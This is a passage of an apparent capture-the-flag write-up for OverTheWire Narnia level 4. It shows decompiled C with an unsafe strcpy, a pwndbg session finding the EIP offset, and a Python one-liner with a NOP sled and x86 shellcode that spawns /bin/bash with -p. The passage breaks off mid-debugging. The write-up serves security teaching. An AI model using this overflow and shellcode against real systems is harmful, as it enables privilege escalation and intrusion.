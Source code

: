 {% highlight c %}
undefined4 main(int param_1,int param_2){ size_t __n\; char local_108 [256]\; int local_8\;  
   
 local_8 = 0\; while (*(int *)(environ + local_8 * 4) != 0) {  
   __n = strlen(*(char **)(environ + local_8 * 4))\;   memset(*(void **)(environ + local_8 * 4),0,__n)\;  
   local_8 = local_8 + 1\;  
 } if (1 < param_1) {   strcpy(local_108,*(char **)(param_2 + 4))\;  
 } return 0\;  
}
{% endhighlight %}

The program is allocating 256 bytes to some variable and performing some innocuous operation on it inside the while loop. After doing so, the program runs an if statement which uses the dangerous strcpy function (see [Narnia 3](#h.ya2tytmk5a6)).

### Binary Exploitation

We can attempt to overflow the buffer by sending a large number of bytes in a pattern using pwndbg to determine where the eip offset is\:

{% highlight bash %}
pwndbg> r $(cyclic 500)                                                                
Starting program\: /home/0xd4y/business/other/overthewire/narnia/4/narnia4 $(cyclic 500)  
                                                                                                                                                                             
Program received signal SIGSEGV, Segmentation fault.                                  0x63616171 in ?? ()                                                                    
  
pwndbg> cyclic -l 0x63616171                                                                                                                                                  
264                                                                                                                                                                          
{% endhighlight %}

Therefore, we can input a maximum of 264 bytes before overwriting the eip register. Thus, we can do just as we did in [Narnia 2](#h.e4mp3rcoeyar), and create a payload that will fill overwrite the eip register with an address that points to shellcode[[9]](#ftnt9)\:

{% highlight bash %}
pwndbg> r $(python -c "print 'A'*264+'B'*4+'\\x90'*100+'\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x68\\x68\\x2f\\x62\\x61\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80'")                                                                                                                                                              
Starting program\: /home/0xd4y/business/other/overthewire/narnia/4/narnia4 $(python -c "print 'A'*264+'B'*4+'\\x90'*100+'\\x6a\\x0b\\x58\\x99\\x52\\x66\\x68\\x2d\\x70\\x89\\xe1\\x52\\x6a\\x  
68\\x68\\x2f\\x62\\x61\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x52\\x51\\x53\\x89\\xe1\\xcd\\x80'")      
                                           
Program received signal SIGSEGV, Segmentation fault.                                    
0x42424242 in ?? ()                                                                                                                                                            
  
pwndbg> x/100x $esp-200                                                                                                                                                        